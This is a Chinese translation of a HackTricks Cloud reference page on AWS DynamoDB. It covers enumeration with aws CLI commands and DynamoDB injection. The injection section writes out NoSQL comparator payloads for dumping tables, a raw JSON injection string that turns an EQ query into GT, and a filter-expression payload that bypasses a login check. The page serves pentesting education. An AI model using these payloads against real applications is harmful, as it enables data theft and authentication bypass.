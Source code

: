 # AWS - DynamoDB 枚举

<details>

<summary><strong>从零开始学习 AWS 黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS 红队专家）</strong></a><strong>！</strong></summary>

支持 HackTricks 的其他方式：

* 如果您想看到您的**公司在 HackTricks 中做广告**或**下载 PDF 版本的 HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方 PEASS & HackTricks 商品**](https://peass.creator-spring.com)
* 探索[**PEASS 家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或在 **Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)** 上关注我们**。
* 通过向 [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享您的黑客技巧。

</details>

## DynamoDB

### 基本信息

Amazon DynamoDB 被 AWS 提供为一种**完全托管、无服务器、键值 NoSQL 数据库**，专为驱动高性能应用而设计，无论其规模如何。该服务确保强大的功能，包括固有的安全措施、不间断的备份、跨多个区域的自动复制、集成内存缓存以及便捷的数据导出工具。

在 DynamoDB 的上下文中，**不是建立传统数据库，而是创建表**。每个表都要求指定一个**分区键**作为**表的主键**的一个组成部分。这个分区键，本质上是一个**哈希值**，在检索项目和在各个主机之间分发数据方面起着关键作用。这种分发对于维护数据库的可伸缩性和可用性至关重要。此外，还可以选择添加一个**排序键**来进一步细化数据组织。

### 加密

默认情况下，DynamoDB 使用属于**Amazon DynamoDB 的 KMS 密钥**，甚至不是至少属于您账户的 AWS 托管密钥。

<figure><img src="https://lh4.googleusercontent.com/JjtNS7aA-_GRMgZb4v93jWEQJi6DQdUPq0FEpzZPdeyCeNoG05p0NJiV9Zs-ULs_-Tfjmx0W1ZgsE2Ui2ljo7D-1a87Xny-gpLVQO0XmXdFoph9ci1RepbVNwaCe9oPruEZSEDxGTxF5dIv6pW1WpT6kWA=s2048" alt=""><figcaption></figcaption></figure>

### 备份 & 导出到 S3

可以**安排**生成**表备份**或根据**需求**创建备份。此外，还可以为表启用**恢复到某一时间点（PITR）**。恢复到某一时间点提供了 DynamoDB 数据的**连续备份**，可持续**35 天**，以帮助您防范意外的写入或删除操作。

还可以将表的**数据导出到 S3**，但需要启用**PITR**。

### GUI

有一个用于本地 Dynamo 服务的 GUI，如 [DynamoDB Local](https://aws.amazon.com/blogs/aws/dynamodb-local-for-desktop-development/)、[dynalite](https://github.com/mhart/dynalite)、[localstack](https://github.com/localstack/localstack) 等，可能会很有用：[https://github.com/aaronshaf/dynamodb-admin](https://github.com/aaronshaf/dynamodb-admin)

### 枚举
```bash
# Tables
aws dynamodb list-tables
aws dynamodb describe-table --table-name <t_name> #Get metadata info
## The primary key and sort key will appear inside the KeySchema field

#Check if point in time recovery is enabled
aws dynamodb describe-continuous-backups \
--table-name tablename

# Backups
aws dynamodb list-backups
aws dynamodb describe-backup --backup-arn <arn>
aws dynamodb describe-continuous-backups --table-name <t_name>

# Global tables
aws dynamodb list-global-tables
aws dynamodb describe-global-table --global-table-name <name>

# Exports
aws dynamodb list-exports
aws dynamodb describe-export --export-arn <arn>

# Misc
aws dynamodb describe-endpoints #Dynamodb endpoints
```
### 未经身份验证的访问

{% content-ref url="../../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md" %}
[aws-dynamodb-unauthenticated-access.md](../../aws-unauthenticated-enum-access/aws-dynamodb-unauthenticated-access.md)
{% endcontent-ref %}

### 权限提升

{% content-ref url="../../aws-privilege-escalation/aws-dynamodb-privesc.md" %}
[aws-dynamodb-privesc.md](../../aws-privilege-escalation/aws-dynamodb-privesc.md)
{% endcontent-ref %}

### 漏洞利用后续

{% content-ref url="../../aws-post-exploitation/aws-dynamodb-post-exploitation.md" %}
[aws-dynamodb-post-exploitation.md](../../aws-post-exploitation/aws-dynamodb-post-exploitation.md)
{% endcontent-ref %}

### 持久性

{% content-ref url="../../aws-persistence/aws-dynamodb-persistence.md" %}
[aws-dynamodb-persistence.md](../../aws-persistence/aws-dynamodb-persistence.md)
{% endcontent-ref %}

## DynamoDB注入

### SQL注入

有方法可以使用**SQL语法**访问DynamoDB数据，因此，典型的**SQL注入也是可能的**。

{% embed url="https://book.hacktricks.xyz/pentesting-web/sql-injection" %}

### NoSQL注入

在DynamoDB中，可以使用不同的**条件**来检索数据，就像在常见的NoSQL注入中，如果可以**链接更多条件来检索**数据，您可以获取隐藏数据（或转储整个表）。\
您可以在这里找到DynamoDB支持的条件：[https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html](https://docs.aws.amazon.com/amazondynamodb/latest/APIReference/API\_Condition.html)

请注意，如果通过**`query`**或**`scan`**访问数据，将支持**不同的条件**。

{% hint style="info" %}
实际上，**Query**操作需要在主键中指定**条件“EQ（等于）**才能正常工作，这使其更**不容易受到NoSQL注入**的影响（也使操作非常有限）。
{% endhint %}

如果您可以**更改执行的比较**或添加新的比较，您可以检索更多数据。
```bash
# Comparators to dump the database
"NE": "a123" #Get everything that doesn't equal "a123"
"NOT_CONTAINS": "a123" #What you think
"GT": " " #All strings are greater than a space
```
### 原始Json注入

**DynamoDB**接受**Json**对象来**搜索**数据库中的数据。如果发现可以在发送到搜索的json对象中写入内容，您可以导出整个数据库的所有内容。

例如，在类似以下请求中注入：
```bash
'{"Id": {"ComparisonOperator": "EQ","AttributeValueList": [{"N": "' + user_input + '"}]}}'
```
{% endcode %}

攻击者可以注入类似以下内容：

`1000"}],"ComparisonOperator": "GT","AttributeValueList": [{"N": "0`

修复"EQ"条件，搜索ID为1000的数据，然后查找所有ID字符串大于0的数据，这样就可以获取所有数据。

### :property 注入

一些SDK允许使用字符串指示要执行的过滤操作，例如：
```java
new ScanSpec().withProjectionExpression("UserName").withFilterExpression(user_input+" = :username and Password = :password").withValueMap(valueMap)
```
{% endcode %}

您需要知道，在DynamoDB中搜索**替换**扫描项目时**过滤表达式**中的属性**值**时，令牌应该以**`:`**字符**开头**。这些令牌将在运行时**替换**为实际的**属性值**。

因此，类似上面的登录方式可以通过以下方式绕过：
```bash
:username = :username or :username
# This will generate the query:
# :username = :username or :username = :username and Password = :password
# which is always true
```
<details>

<summary><strong>从零开始学习AWS黑客技术，成为专家</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE（HackTricks AWS红队专家）</strong></a><strong>！</strong></summary>

其他支持HackTricks的方式：

* 如果您想看到您的**公司在HackTricks中做广告**或**下载PDF格式的HackTricks**，请查看[**订阅计划**](https://github.com/sponsors/carlospolop)!
* 获取[**官方PEASS & HackTricks周边产品**](https://peass.creator-spring.com)
* 探索[**PEASS家族**](https://opensea.io/collection/the-peass-family)，我们的独家[**NFTs**](https://opensea.io/collection/the-peass-family)
* **加入** 💬 [**Discord群**](https://discord.gg/hRep4RUj7f) 或 [**电报群**](https://t.me/peass) 或 **关注**我们的**Twitter** 🐦 [**@hacktricks_live**](https://twitter.com/hacktricks_live)**。**
* 通过向[**HackTricks**](https://github.com/carlospolop/hacktricks)和[**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github仓库提交PR来分享您的黑客技巧。

</details>
